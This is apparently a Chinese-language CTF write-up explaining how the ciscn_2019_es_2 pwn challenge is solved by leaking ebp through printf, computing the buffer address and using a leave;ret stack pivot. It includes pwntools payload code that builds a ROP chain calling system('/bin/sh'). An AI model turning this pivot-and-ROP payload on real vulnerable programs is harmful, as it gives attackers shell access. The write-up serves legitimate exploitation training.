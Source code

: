 ```yaml
---
title: "栈溢出示例"
date: 2021-07-19T23:25:46+08:00
draft: false

---
```


# 										栈溢出示例

## 0x1 例题：ciscn_2019_es_2

链接：https://buuoj.cn/challenges

## 0x2 过程

### 1.

![image-20210721194709593](/images1/image-20210721194709593.png)

32位，开了NX保护。

### 2.

直接看ida。

![image-20210721194945460](/images1/image-20210721194945460.png)

![image-20210721195001567](/images1/image-20210721195001567.png)

![image-20210721195013809](/images1/image-20210721195013809.png)

主要是这3个函数。main就是打印一句话。vul里面调用了两次read，都是往s所在的栈上写入0x30大小的内容。

但是s却只有0x28的大小，所以存在栈溢出。但是因为0x30-0x28=0x8，所以溢出空间很小，无法构造有效的rop链。

这时就需要栈迁移技术了。

![image-20210721195447662](/images1/image-20210721195447662.png)

发现bss段没有充足的空间可供我们伪造栈。又想起两次两次read都是写入相同的栈上。于是想要栈迁移到自身上。这时需要确定栈的起始地址和结束地址。而结束地址此时等同于rbp的值，可以利用printf泄露。

![image-20210721195835568](/images1/image-20210721195835568.png)

因为只有遇到\x00才会停止打印。于是构造第一个payload泄露rbp的值。

```python
payload = 'a'*0x20+'b'*8
p.recvuntil("name?\n")
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp_addr = u32(p.recv(4))
print hex(ebp_addr)
```

**此时还需要s的地址。但是我们只要知道s到栈底的偏移就可以间接得到了。**

```python
payload = 'a'*0x20+'b'*8
p.recvuntil("name?\n")
p.send(payload)
p.recvuntil('bbbbbbbb')
ebp_addr = u32(p.recv(4))
print hex(ebp_addr)
gdb.attach(p,"b *"+'0x080485be')
p.interactive()
```

![image-20210721201609661](/images1/image-20210721201609661.png)

得到rbp的值。0xff8ded88

![image-20210721202100866](/images1/image-20210721202100866.png)

**从esp可以看到当s的开头地址为0xff8ded50.**

**得到偏移为0x88-0x50=0x38**

则s_addr =  ebp - 0x38

构造第二个payload

```python
payload1 = p32(s_addr) + p32(sys_addr) + p32(main_addr) + p32(s_addr + 0x10)
payload1+= '/bin/sh\x00'
payload1 = (payload1).ljust(0x28,'c')
payload1+= p32(s_addr) + p32(leave_ret)
p.send(payload1)

```

第一个p32(s_addr)是为了执行到第二个p32(s_addr)时pop ebp;保留一个位置位移，内容不重要。

p32(main_addr)是为了平衡栈。

后面调用了system("/bin/sh")。是rop链的手法。**其中p32(s_addr + 0x10 ) 相当于 /bin/sh 的地址**

**作为system 的参数。**

.ljust(0x28,'c')补足0x28的大小。

然后利用栈迁移技术。具体见上篇博客，栈迁移原理。

## 0x3 总结

最重要的还是通过leave；ret；的灵活运用来控制ebp和esp。


